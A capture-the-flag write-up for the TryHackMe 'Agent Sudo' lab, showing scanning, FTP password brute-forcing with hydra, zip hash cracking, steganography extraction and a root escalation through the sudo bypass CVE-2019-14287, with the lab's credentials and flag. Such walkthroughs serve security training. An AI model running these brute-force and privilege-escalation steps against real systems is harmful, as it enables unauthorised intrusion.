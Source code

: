 ```yaml
---
title: "Tryhackme - Agent Sudo WriteUp"
date: 2020-10-23
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```



# TryHackMe - Agent Sudo WriteUp


**Keywords:** changing user-agent, binwalk, zip2john, john, steghide, cve-2019-14287, sudo exploit


Potential Users:
chris


## Information Gathering


### nmap

```
root@kali:~/TryHackMe# nmap -sV -sC -p- -T4 -A --script vuln 10.10.238.253
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_sslv2-drown:
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
```


## Enumeration


### curl

```
root@kali:~/TryHackMe# curl http://10.10.238.253 -H "User-Agent: C" -L
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

-	**-L**: this option will make curl redo the request on the new place. (3xx Request ~ Redirection)
-	**-H**: header of the file


### hydra

```
root@kali:~/TryHackMe# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.238.253 -t 8
[21][ftp] host: 10.10.238.253   login: chris   password: crystal
```


### ftp

```
root@kali:~/TryHackMe# ftp 10.10.238.253
Name (10.10.238.253:root): chris
Password: crystal
ftp> dir
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
ftp> get To_agentJ.txt
ftp> get cute-alien.jpg
ftp> get cutie.png
```


### binwalk

binwalk - tool for searching binary images for embedded files and executable code

```
root@kali:~/TryHackMe# binwalk -e cute-alien.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

root@kali:~/TryHackMe# binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```


### zip2john

```
root@kali:~/TryHackMe/_cutie.png.extracted# zip2john 8702.zip > hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
```


### john

```
root@kali:~/TryHackMe/_cutie.png.extracted# john hash --wordlist=/usr/share/wordlists/rockyou.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)
```


### base64

```
root@kali:~/TryHackMe/_cutie.png.extracted# cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
root@kali:~/TryHackMe/_cutie.png.extracted# echo "QXJlYTUx" | base64 -d
Area51
```


### steghide

```
root@kali:~/TryHackMe# steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
root@kali:~/TryHackMe# cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```


### ssh

```
root@kali:~/TryHackMe# ssh james@10.10.238.253
james@10.10.238.253's password: hackerrules!
james@agent-sudo:~$
```


## Privilege Escalation

The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access.

Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

**The following terms need to be met before exploiting:**

1.	/etc/sudoers file, a user should be granted permission to execute programs as any users except root.
2.	user has sudo privileges that allow them to run commands with an arbitrary user ID.


**Exploit**

Run Sudo command with User ID -1 or 4294967295

```
cat /etc/sudoers
```

```
sudo -u#-1 /bin/bash
```



```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:/root# 

```



